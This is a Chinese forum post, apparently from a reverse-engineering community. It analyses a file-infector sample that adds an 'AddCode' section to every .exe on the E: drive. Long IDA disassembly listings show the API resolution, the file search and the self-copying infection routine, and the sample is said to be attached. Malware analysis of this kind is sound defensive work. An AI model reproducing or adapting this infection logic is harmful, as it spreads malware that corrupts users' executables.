


# 对一加节感染样本分析

> 原文：[`www.pediy.com/kssd/pediy12/140233.html`](https://www.pediy.com/kssd/pediy12/140233.html)

功能：全盘感染可执行文件，加节。此样本为一个已经感染过的，原本是一个正常的文件。这个样本很简单，似乎就是感染，没做什么坏事，适合练手用。如果可能的话，希望能加精下，第一次发贴，不容易呀，如果有分析不对的地方，忘谅解…下面是分析过程。

## 入口

获取 `Kernel32` 的基址，并从地址表得到导出函数地址。这个很经典了，一些 shellcode 常用的手法，动态获取函数。这期间如果有任何地方出错则跳到原入口点，即执行原来的程序。

```
:0040447E                         call    $+5

Addcode:00404483                   pop     ebx
Addcode:00404484                   sub     ebx, 40197Ah
Addcode:0040448A                   mov     eax, [esp+0]
Addcode:0040448D                   push    eax
Addcode:0040448E                   call    GetKernel32Base
Addcode:00404493                   or      eax, eax
Addcode:00404495                   jz      short loc_40449F
Addcode:00404497                   mov     ds:(hDllKernel32 - 2B09h)[ebx], eax
Addcode:0040449D                   jmp     short loc_4044A4
Addcode:0040449F ; -------------------------

Addcode:0040449F loc_40449F:                       ; CODE XREF: start+17 j
Addcode:0040449F                   jmp     ___ToOldEntry
Addcode:004044A4 ; -------------------------

Addcode:004044A4 loc_4044A4:                       ; CODE XREF: start+1F j
Addcode:004044A4                   mov     eax, offset dword_4015EC
Addcode:004044A9                   add     eax, ebx
Addcode:004044AB                   push    eax
Addcode:004044AC                   push    ds:(hDllKernel32 - 2B09h)[ebx]
Addcode:004044B2                   call    __GetApiAddress
Addcode:004044B7                   or      eax, eax
Addcode:004044B9                   jnz     short loc_4044C0
Addcode:004044BB                   jmp     ___ToOldEntry
Addcode:004044C0 ; -------------------------

Addcode:004044C0 loc_4044C0:                       ; CODE XREF: start+3B j
Addcode:004044C0                   mov     ds:(lpGetProcAddress - 2B09h)[ebx], eax
Addcode:004044C6                   lea     eax, (szLoadLibrary - 2B09h)[ebx] ; "LoadLibraryA"
Addcode:004044CC                   push    eax
Addcode:004044CD                   push    ds:(hDllKernel32 - 2B09h)[ebx]
Addcode:004044D3                   call    ds:(lpGetProcAddress - 2B09h)[ebx]
Addcode:004044D9                   or      eax, eax
Addcode:004044DB                   jnz     short loc_4044E2
Addcode:004044DD                   jmp     ___ToOldEntry
Addcode:004044E2 ; -------------------------

Addcode:004044E2 loc_4044E2:                       ; CODE XREF: start+5D j
Addcode:004044E2                   mov     ds:(lpLoadLibrary - 2B09h)[ebx], eax
Addcode:004044E8                   lea     eax, (szUser32 - 2B09h)[ebx] ; "user32"
Addcode:004044EE                   push    eax
Addcode:004044EF                   call    ds:(lpLoadLibrary - 2B09h)[ebx]
Addcode:004044F5                   or      eax, eax
Addcode:004044F7                   jnz     short loc_4044FE
Addcode:004044F9                   jmp     ___ToOldEntry
Addcode:004044FE ; -------------------------

Addcode:004044FE loc_4044FE:                       ; CODE XREF: start+79 j
Addcode:004044FE                   mov     ds:(hDllUser32 - 2B09h)[ebx], eax
Addcode:00404504                   lea     eax, (szMessageBox - 2B09h)[ebx] ; "MessageBoxA"
Addcode:0040450A                   push    eax
Addcode:0040450B                   push    ds:(hDllUser32 - 2B09h)[ebx]
Addcode:00404511                   call    ds:(lpGetProcAddress - 2B09h)[ebx] ; lpMessageBox
Addcode:00404517                   or      eax, eax
Addcode:00404519                   jnz     short loc_404520
Addcode:0040451B                   jmp     ___ToOldEntry
Addcode:00404520 ; -------------------------

Addcode:00404520 loc_404520:                       ; CODE XREF: start+9B j
Addcode:00404520                   mov     ds:(lpMessageBox - 2B09h)[ebx], eax
Addcode:00404526                   push    0
Addcode:00404528                   push    0
Addcode:0040452A                   lea     eax, (szInjectCode - 2B09h)[ebx]
Addcode:00404530                   push    eax
Addcode:00404531                   push    0
Addcode:00404533                   call    ds:(lpMessageBox - 2B09h)[ebx]
Addcode:00404539                   lea     eax, (szCreateThread - 2B09h)[ebx] ; "CreateThread"
Addcode:0040453F                   push    eax
Addcode:00404540                   push    ds:(hDllKernel32 - 2B09h)[ebx]
Addcode:00404546                   call    ds:(lpGetProcAddress - 2B09h)[ebx] ; lpGetProcAddress
Addcode:0040454C                   or      eax, eax
Addcode:0040454E                   jnz     short loc_404555
Addcode:00404550                   jmp     ___ToOldEntry
Addcode:00404555 ; ----------------------------
```

代码还是很多，就不全贴了，以上主要是得到一些函数的地址，下面会有用。

最后有这样一个，很重要，我们进去看看：

```
Addcode:00404775

Addcode:00404775 loc_404775:                       ; CODE XREF: start+2F0 j
Addcode:00404775                   mov     ds:(lpRtlMoveMemory - 2B09h)[ebx], eax
Addcode:0040477B                   push    0
Addcode:0040477D                   push    0
Addcode:0040477F                   push    0
Addcode:00404781                   lea     eax, (__InjectCodeThread - 2B09h)[ebx]
Addcode:00404787                   push    eax
Addcode:00404788                   push    0
Addcode:0040478A                   push    0
Addcode:0040478C                   call    ds:(lpCreateThread - 2B09h)[ebx]
Addcode:00404792                   jmp     ___ToOldEntry
Addcode:00404792 start             endp

Addcode:00404792
```

来到这：

```
Addcode:00404797

Addcode:00404797 __InjectCodeThread proc near              ; DATA XREF: start+303 o
Addcode:00404797                   pusha
Addcode:00404798                   call    $+5
Addcode:0040479D                   pop     ebx
Addcode:0040479E                   sub     ebx, 401C94h
Addcode:004047A4                   lea     eax, (szBootPath - 2B09h)[ebx]
Addcode:004047AA                   push    eax
Addcode:004047AB                   call    ___FindFile
Addcode:004047B0                   popa
Addcode:004047B1                   retn
Addcode:004047B1 __InjectCodeThread endp

Addcode:004047B1
```

这个主要是全盘感染，`FindFile` 就是感染 `exe` 文件。它感染的是哪个盘了？我们看看。

```
Addcode:00404354 szBootPath      dd 5C3A45h, 41h dup(0)  45  3a  5c
```

16 进制，还原看看，是 `e:\`，看图。



`FindFile` 为查找并感染，我们进去看下：

```
Addcode:0040482E                   push    eax
Addcode:0040482F                   call    ds:(lpFindFirstFile - 2B09h)[ebx]
Addcode:00404835                   cmp     eax, 0FFFFFFFFh
Addcode:00404838                   jz      loc_4048FF
Addcode:0040483E                   mov     [ebp+var_144], eax
Addcode:00404844
```

遍历。那么它是如何判断是可执行文件的？在这：

```
Addcode:00404895                   push    eax
Addcode:00404896                   call    ds:(lplstrlen - 2B09h)[ebx]
Addcode:0040489C                   sub     eax, 4
Addcode:0040489F                   lea     esi, [ebp+var_450]
Addcode:004048A5                   add     esi, eax
Addcode:004048A7                   push    esi
Addcode:004048A8                   lea     eax, (lpszFilter - 2B09h)[ebx]
Addcode:004048AE                   push    eax
Addcode:004048AF                   call    ds:(lplstrcmp - 2B09h)[ebx]
Addcode:004048B5                   or      eax, eax
Addcode:004048B7                   jnz     short loc_4048D8
```


```
Addcode:004048B9                 push    0

Addcode:004048BB                 push    0

Addcode:004048BD                 lea     eax, [ebp+var_450]
```

比较，`lpszFilter` 是什么，去看看

```
Addcode:0040434F lpszFilter      db 2Eh                ; DATA XREF: ___FindFile+F6 o

Addcode:00404350                 dd 657865h
```



`2E 65 78 65 .exe`

好了，小结一下，以上为遍历和查找部分，那感染了，`ProcessFile`，就是它了..进去看看..

```
Addcode:004048BB                 push    0

Addcode:004048BD                 lea     eax, [ebp+var_450]

Addcode:004048C3                 push    eax

Addcode:004048C4                 push    0

Addcode:004048C6                 call    ds:(lpMessageBox - 2B09h)[ebx]

Addcode:004048CC                 lea     eax, [ebp+var_450]

Addcode:004048D2                 push    eax

Addcode:004048D3                 call    __ProcessFile

Addcode:004048D8

Addcode:004048D8 loc_4048D8:                            ; CODE XREF: ___FindFile+CD j

Addcode:004048D8                                      ; ___FindFile+DB j ...

Addcode:004048D8                 lea     eax, [ebp+var_13E]

Addcode:004048DE                 push    eax

Addcode:004048DF                 push    [ebp+var_144]

Addcode:004048E5                 call    ds:(lpFindNextFile - 2B09h)[ebx]

Addcode:004048EB                 or      eax, eax

Addcode:004048ED                 jnz     loc_404844

Addcode:004048F3                 push    [ebp+var_144]

Addcode:004048F9                 call    ds:(lpFindClose - 2B09h)[ebx]
```

它首先判断是否可以加节，可以的话就加节，节名为 `addcode`，然后写入文件..`ida` 注释的很清楚了

```
Addcode:00404A51

Addcode:00404A51 loc_404A51:                            ; CODE XREF: __ProcessFile+146 j

Addcode:00404A51                 push    [ebp+var_10]

Addcode:00404A54                 call    SubIfAddSection

Addcode:00404A59                 or      eax, eax

Addcode:00404A5B                 jnz     short loc_404A86

Addcode:00404A5D                 push    1000h

Addcode:00404A62                 push    [ebp+var_4]

Addcode:00404A65                 lea     eax, [ebp+var_10]

Addcode:00404A68                 push    eax

Addcode:00404A69                 call    ds:(lpVirtualFree - 2B09h)[ebx]

Addcode:00404A6F                 push    1000h

Addcode:00404A74                 push    [ebp+var_8]

Addcode:00404A77                 lea     eax, [ebp+var_C]

Addcode:00404A7A                 push    eax

Addcode:00404A7B                 call    ds:(lpVirtualFree - 2B09h)[ebx]

Addcode:00404A81                 jmp     ProcessFileEnd

Addcode:00404A86 ; ---------------------------------------------------------------------------

Addcode:00404A86

Addcode:00404A86 loc_404A86:                            ; CODE XREF: __ProcessFile+157 j

Addcode:00404A86                 push    [ebp+var_4]

Addcode:00404A89                 push    [ebp+var_10]

Addcode:00404A8C                 push    [ebp+var_C]

Addcode:00404A8F                 call    ds:(lpRtlMoveMemory - 2B09h)[ebx]

Addcode:00404A95                 push    [ebp+var_4]

Addcode:00404A98                 push    [ebp+var_C]

Addcode:00404A9B                 call    subAddSection

Addcode:00404AA0                 push    [ebp+var_14]

Addcode:00404AA3                 call    ds:(lpCloseHandle - 2B09h)[ebx]

Addcode:00404AA9                 push    [ebp+arg_0]

Addcode:00404AAC                 lea     eax, (byte_4041DB - 2B09h)[ebx]

Addcode:00404AB2                 push    eax

Addcode:00404AB3                 call    ds:(lplstrcpy - 2B09h)[ebx]

Addcode:00404AB9                 lea     eax, (byte_4041DB - 2B09h)[ebx]

Addcode:00404ABF                 push    eax

Addcode:00404AC0                 call    ds:(lplstrlen - 2B09h)[ebx]

Addcode:00404AC6                 lea     esi, (byte_4041DB - 2B09h)[ebx]

Addcode:00404ACC                 sub     eax, 4

Addcode:00404ACF                 add     eax, esi

Addcode:00404AD1                 mov     dword ptr [ebp+var_24], eax

Addcode:00404AD4                 lea     eax, (byte_4042DB - 2B09h)[ebx]

Addcode:00404ADA                 push    eax

Addcode:00404ADB                 push    dword ptr [ebp+var_24]

Addcode:00404ADE                 call    ds:(lplstrcpy - 2B09h)[ebx]

Addcode:00404AE4                 push    0

Addcode:00404AE6                 push    80h

Addcode:00404AEB                 push    2

Addcode:00404AED                 push    0

Addcode:00404AEF                 push    3

Addcode:00404AF1                 push    0C0000000h

Addcode:00404AF6                 lea     eax, (byte_4041DB - 2B09h)[ebx]

Addcode:00404AFC                 push    eax

Addcode:00404AFD                 call    ds:(lpCreateFile - 2B09h)[ebx]

Addcode:00404B03                 cmp     eax, 0FFFFFFFFh

Addcode:00404B06                 jnz     short loc_404B2E

Addcode:00404B08                 push    1000h

Addcode:00404B0D                 push    [ebp+var_4]

Addcode:00404B10                 lea     eax, [ebp+var_10]

Addcode:00404B13                 push    eax

Addcode:00404B14                 call    ds:(lpVirtualFree - 2B09h)[ebx]

Addcode:00404B1A                 push    1000h

Addcode:00404B1F                 push    [ebp+var_8]

Addcode:00404B22                 lea     eax, [ebp+var_C]

Addcode:00404B25                 push    eax

Addcode:00404B26                 call    ds:(lpVirtualFree - 2B09h)[ebx]

Addcode:00404B2C                 jmp     short ProcessFileEnd

Addcode:00404B2E ; ---------------------------------------------------------------------------

Addcode:00404B2E

Addcode:00404B2E loc_404B2E:                            ; CODE XREF: __ProcessFile+202 j

Addcode:00404B2E                 mov     [ebp+var_18], eax

Addcode:00404B31                 push    0

Addcode:00404B33                 lea     eax, [ebp+var_24+4]

Addcode:00404B36                 push    eax

Addcode:00404B37                 push    [ebp+var_8]

Addcode:00404B3A                 push    [ebp+var_C]

Addcode:00404B3D                 push    [ebp+var_18]

Addcode:00404B40                 call    ds:(lpWriteFile - 2B09h)[ebx]

Addcode:00404B46                 push    [ebp+var_18]

Addcode:00404B49                 call    ds:(lpCloseHandle - 2B09h)[ebx]

Addcode:00404B4F                 push    0

Addcode:00404B51                 push    0

Addcode:00404B53                 lea     eax, (byte_404469 - 2B09h)[ebx]

Addcode:00404B59                 push    eax

Addcode:00404B5A                 push    0

Addcode:00404B5C                 call    ds:(lpMessageBox - 2B09h)[ebx]

Addcode:00404B62
```

这里我们去加节的部分看下.. `subAddSection`

```
Addcode:00404BDC                 mov     [edi+14h], eax

Addcode:00404BDF                 mov     dword ptr [edi+24h], 0E0000000h

Addcode:00404BE6                 lea     eax, (aAddcode - 2B09h)[ebx] ; "AddCode"

Addcode:00404BEC                 push    eax

Addcode:00404BED                 lea     eax, [edi]

Addcode:00404BEF                 push    eax

Addcode:00404BF0                 call    ds:(lplstrcpy - 2B09h)[ebx]

Addcode:00404BF6                 mov     eax, [edi+0Ch]

Addcode:00404BF9                 add     eax, [edi+8]

Addcode:00404BFC                 mov     [esi+50h], eax

Addcode:00404BFF                 push    dword ptr [esi+28h]

Addcode:00404C02                 pop     [ebp+var_C]
```

新增加的节名

既然是加节感染，那感染部分的代码了？从哪来？从 `xfish` 那启发..

```
Addcode:00404C58                 rep movsb

Addcode:00404C5A                 popa

Addcode:00404C5B                 pusha

Addcode:00404C5C                 mov     ecx, [edi+8]

Addcode:00404C5F                 sub     ecx, 4
```


```
Addcode:00404C62 lea esi, (GetKernel32Base - 2B09h)[ebx] ; why this?? here: include GetKernel32Base.asm
```

```
Addcode:00404C68 mov edi, [edi+14h]
```

```
Addcode:00404C6B add edi, [ebp+arg_0]
```

```
Addcode:00404C6E cld
```

```
Addcode:00404C6F rep movsb
```

```
Addcode:00404C71 popa
```

```
Addcode:00404C72 leave
```

```
Addcode:00404C73 retn 8
```

走，去 `GetKernel32Base` 看看

```
Addcode:00404000
Addcode:00404000 GetKernel32Base proc near ; CODE XREF: start+10 p
Addcode:00404000 ; DATA XREF: subAddSection+53 o ...
Addcode:00404000
Addcode:00404000 var_4 = dword ptr -4
Addcode:00404000 arg_0 = dword ptr 8
Addcode:00404000
Addcode:00404000 push ebp
Addcode:00404001 mov ebp, esp
Addcode:00404003 add esp, 0FFFFFFFCh
Addcode:00404006 pusha
Addcode:00404007 mov [ebp+var_4], 0
Addcode:0040400E call $+5
Addcode:00404013 pop ebx
Addcode:00404014 sub ebx, 40150Ah
Addcode:0040401A mov edi, [ebp+arg_0]
Addcode:0040401D and edi, 0FFFF0000h
```

来到加节的起始处，感染的代码来源即是整个 `Addcode` 节里面的代码..

那我们翻到节尾看下

```
Addcode:00404CF8 ; -------------------------------------------------------------------------
Addcode:00404CF8 ; START OF FUNCTION CHUNK FOR SubIfAddSection
Addcode:00404CF8
Addcode:00404CF8 loc_404CF8: ; CODE XREF: SubIfAddSection+5E j
Addcode:00404CF8 xor eax, eax
Addcode:00404CFA leave
Addcode:00404CFB retn 4
Addcode:00404CFB ; END OF FUNCTION CHUNK FOR SubIfAddSection
Addcode:00404CFE ; -------------------------------------------------------------------------
Addcode:00404CFE ; START OF FUNCTION CHUNK FOR start
Addcode:00404CFE
Addcode:00404CFE ___ToOldEntry: ; CODE XREF: start:loc_40449F j
Addcode:00404CFE ; start+3D j ...
Addcode:00404CFE jmp loc_401000
Addcode:00404CFE ; END OF FUNCTION CHUNK FOR start
Addcode:00404CFE ; -------------------------------------------------------------------------
Addcode:00404D03 byte_404D03 db 0 ; DATA XREF: subAddSection+4D o
Addcode:00404D04 dd 3Fh dup(0)
Addcode:00404E00 dd 80h dup(?)
```

`jmp loc_401000` 即是跳到原入口点，执行原程序的功能..

好了，分析就到这，我们来总结一下.

1. 感染后的新入口: `Addcode:0040447E` ,首先获得我们所有需要的函数,最后创建线程
2. `lpCreateThread` 参数 .. `InjectCodeThread` 感染对象为 E 盘
3. `.._FindFile` 查找，遍历
4. `..ProcessFile` 加节，感染了..
5. `subAddSection` 加节，注意下节的内容..
6. 节的内容：`Addcode:00404000-- Addcode:00404CFE` 即 `Addcode` 整个节..

第一次发贴，如有写的不对的地方，高手莫笑，希望能鼓励下，能加个精华就好了..

最后附上样本和 `idb` 文件，里面分析的很详细，基本把所有的函数都逆了.样本把扩展名改为`.exe` 即可..

上传的附件

|  || `bin.7z`
|
